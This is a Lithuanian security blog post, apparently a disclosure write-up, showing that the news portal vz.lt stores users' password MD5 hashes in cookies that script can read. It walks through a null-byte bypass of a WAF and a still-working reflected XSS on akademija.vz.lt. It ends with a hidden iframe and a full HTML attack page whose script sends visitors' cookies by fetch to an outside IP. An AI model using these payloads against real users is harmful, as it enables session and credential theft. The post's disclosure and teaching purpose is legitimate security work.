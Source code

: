 ﻿---
layout:     post
title:      "Mano VŽ"
date:       2022-12-31 08:00:00
categories: HackAndTell
cover:      manovz.svg); background-color:rgb(187,1,42); background-color:rgb(187,1,42
permalink:  /lt/blog/mano-vz
---
Atsitik tu man taip, kad naršydamas [Verslo Žinias](https://www.vz.lt) (VZ) paspaudžiau "[uždraustą](https://techcrunch.com/2021/10/15/f12-isnt-hacking-missouri-governor-threatens-to-prosecute-local-journalist-for-finding-exposed-state-data/) [mygtuką](https://twitter.com/GovParsonMO/status/1448697768311132160)" F12. Dėmesį patraukė ilgas slapukų sąrašas:

![Slapukai](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.001.png "Slapukai")

Ten buvo slapukų su įdomiu pavadinimu [evercookie](https://en.wikipedia.org/wiki/Evercookie), bet ši istorija ne apie tai. Labiausiai kliuvo `VzLtLoginInfo`, kurio reikšmė buvo mano elektroninio pašto adresas, ir `VzLTLoginInfoPwd`, kurio reikšmė buvo 32-iejų raidžių ir skaičių kratinys. Kadangi savo slaptažodį puikiai žinau, greitai [patikrinau](https://emn178.github.io/online-tools/md5.html) hipotezę, kad tai jo MD5 reikšmė.

# Web programų 101

Reikia pasakyti, kad tai rimtas anti-pattern'as. Vartotojo slaptažodis turi būti perduodamas į serverį vieną vienintelį kartą per šifruotą HTTPS prisijungimą. Serveris nustato vartotojo tapatybę ir stateful architektūros atveju sukuria vartotojui sesiją. Tam serveris turi sugeneruoti tikrai atsitiktinį identifikatorių, kurio neįmanoma atspėti. Ir ne, [Math.random()](https://securitylab.github.com/advisories/GHSL-2020-228-YMFE-yapi/) ir kiti PRNG algoritmai tam netinka. Naršyklė gautą sesijos identifikatorių išsaugo pvz. slapuke.

Toliau naršyklė ir serveris bendrauja tik per sesijos identifikatorių. Vartotojo slaptažodis naršyklėje niekur nesaugomas jokiame pavidale iš kurio galima būtų atkurti jo pradinę reikšmę (MD5 yra super greitas, super pasenęs algoritmas, leidžiantis milžinišku greičiu surasti pradinį slaptažodį). Vartotojui atsijungus (angl. sign out) sesija serveryje yra panaikinama ir senas sesijos identifikatorius nebetenka jokios reikšmės.

# Na ir kas?

Galite paklausti: "Na ir kas čia tokio, kad slaptažodžio MD5 reikšmė išsaugoma slapuke? Juk ji išsaugoma mano kompiuteryje, mano naršyklėje ir neprieinama niekam kitam. Tik man ir serveriui, kuris ir taip mano slaptažodį žino.". Galima būtų tiesiog pasijuokti iš tokio architektūrinio sprendimo ir tiek, bet pabandykime pademonstruoti jo įtaką saugumui.

Kaip matome `VzLtLoginInfoPwd` slapukas neturi `HttpOnly` atributo (t.y. JavaScript puslapio kodas turi teisę jį perskaityti) ir išrašytas visiems [vz.lt](https://vz.lt) subdomain'ams. Tai reiškia kad XSS pažeidžiamumo atveju bet kokiame iš [vz.lt](https://vz.lt) subdomain'ų ([www.vz.lt](https://www.vz.lt), [mano.vz.lt](https://mano.vz.lt), [login.vz.lt](https://login.vz.lt) ir t.t.) kenkėjiškas kodas gali jį pavogti. Sėkmingos vagystės atveju galima atkurti pradinį slaptažodį, bet tai net nesvarbu, nes pavogta MD5 reikšmė pati savaimė yra "prisijungimo bilietas". **Tačiau skirtingai nuo sesijos identifikatoriaus, pavogta reikšmė galioja tiek, kiek galioja vartotojo slaptažodis.**

# Ieškome XSS

2018-ais esu pranešęs per [NKSC](https://www.nksc.lt/) apie galimybe įterpti Stored XSS akivaizdžioje vietoje - VZ komentaruose. Pabandykime surasti XSS VZ portale... Po kurio laiko išryškėja pirmasis kandidatas: [https://www.vz.lt/apps/pbcs.dll/exec?name=asdf](https://www.vz.lt/apps/pbcs.dll/exec?name=asdf).

Serveris atsako pranešimu:

![ERROR: Script asdf is missing!](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.002.png "ERROR: Script asdf is missing!")

Tai, kad serveris "atspindi" mūsų įvestą reikšmę yra geras ženklas. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=<i>asdf</i>) ir gauname:

![SQL Injection. System will not process this request.](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.003.png "SQL Injection. System will not process this request.")

Tas pats ir su [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;](https://www.vz.lt/apps/pbcs.dll/exec?name=<). Panašu į kažkokį savadarbį [WAF](https://en.wikipedia.org/wiki/Web_application_firewall) (Web Application Firewall). Galima tik spėlioti prie ko čia SQL injekcija. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<i>asdf</i>) ir matome:

![ERROR: Script italic_start asdf italic_end_ is missing!](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.004.png "ERROR: Script italic_start asdf italic_end is missing!")

Įterpę nulinį baitą sėkmingai apėjome WAF, o serveris atvaizdavo mūsų HTML kodą. [Hello PHP](https://www.php.net/manual/en/security.filesystem.nullbytes.php)? :)

Tačiau įvedę [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;script>alert(1)&lt;/script>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<script>alert(1)</script>) serveris atsako:

![Access denied](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.005.png "Access denied")

Panašu, kad VZ naudoja dar vieną WAF – Imperva. Šis komercinis sprendimas turi ilgą šleifą taisytų klaidų ir nors jo apėjimo būdą yra sunkiau surasti, tačiau [nėra](https://www.google.com/search?q=imperva+xss+bypass) [neįmanoma](https://github.com/0xInfection/Awesome-WAF/blob/master/README.md#imperva). Vis dėlto yra lengvesnių kelių. [Openbugbounty](https://www.openbugbounty.org/) randame du įrašus apie XSS VZ portale, apie kuriuos buvo pranešta Verslo Žinioms 2018 m. Sausio 19 d. ir 2018 m. Rugpjūčio 10 d.:

- [https://www.openbugbounty.org/reports/661990/](https://www.openbugbounty.org/reports/661990/)
- [https://www.openbugbounty.org/reports/533348/](https://www.openbugbounty.org/reports/533348/)

Pirmasis yra "pridengtas" Imperva, tačiau antrasis veikia iki šiol! WAF naudojimas negali būti priežastimi netaisyti žinomų pažeidžiamumų. Ar jis liko neištaisytas todėl, kad yra [akademija.vz.lt](https://akademija.vz.lt), o ne pagrindiniame subdomain'e [www.vz.lt](https://www.vz.lt)? Didelė klaida, nes šis subdomain'as gali skaityti `VzLtLoginInfoPwd` ir `VzLtLoginInfo` slapukus: [https://akademija.vz.lt/paieska/?q=">&lt;script>alert(document.cookie)&lt;/script>](https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ealert\(document.cookie\)%3c/script%3e).

# Kas iš to alert?

Tai yra Reflected XSS, nes esamam vartotojui reikia atidaryti šią nuorodą, kad kodas būtų įvykdytas. Tačiau būtų klaidinga nuvertinti tai ir priskirti prie socialinės inžinerijos atakų. VZ vartotojams, kurie naudoja Safari naršyklę nepasisekė - tereikia įterpti šį kodą `<iframe style="display:none" src="https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ehttps://172.17.247.54:4443?c=&#x22;+document.cookie%3c/script%3e"></iframe>` į kokį nulaužtą puslapį, kurį jie aplanko ir slapukas bus pavogtas jiems nematant. Iki 2020 m. vasaros tai taip pat veikė Chrome ir Firefox naršyklėse. Dabar tam reikia, kad slapukas būtų pažymėtas atributais `Secure` (leisti siųsti slapuką tiktai per HTTPS) ir `SameSite=None`. VZ slapukai jų neturi.

Vis dėlto, yra kitas būdas, kuris veikia visur. Šis kodas kenkėjiškame puslapyje arba nulaužtame forume trumpam blykstelėjęs išsiųs [vz.lt](https://vz.lt) slapukus trečioms šalims:

```html
<html>
<body>
  Welcome
  <form action="https://akademija.vz.lt/paieska/">
    <input type="hidden" name="q"
      value="&#x22;&#x3E;&#x3C;script&#x3E;fetch(&#x22;https://172.17.247.54:4443?c=&#x22;+document.cookie);history.back()&#x3C;/script&#x3E;" />
    <input type="hidden" type="submit" value="Submit request" />
  </form>
  <script>
    if (!document.cookie.split('; ').find(row => row.startsWith('foo='))) {
      const url = new URL(window.location);
      window.history.pushState({}, '', url);
      document.forms[0].submit();
      document.cookie = "foo=bar; expires=Fri, 31 Dec 9999 23:59:59 GMT";
    }
  </script>
  <iframe width="640" height="320" src="https://www.youtube.com/embed/6FQsIfE7sZM" title="YouTube video player"
    frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture"
    allowfullscreen>
  </iframe>
</body>
</html>
```
